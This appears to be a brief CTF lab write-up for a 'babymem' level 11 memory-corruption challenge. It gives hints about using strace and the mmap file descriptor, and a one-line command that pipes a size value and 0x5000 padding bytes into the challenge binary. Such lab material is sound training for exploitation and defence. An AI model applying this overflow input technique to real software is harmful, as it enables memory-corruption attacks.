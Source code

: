 Use `strace` to get the size of the payload.

The second last parameter of the `mmap` function is `fd`.

That means the memory region is initialized with the given file descriptor.

You can use the following command.

```
(echo "20480"; python3 -c "print('a' * 0x5000)") | /babymem_level11_testing1
```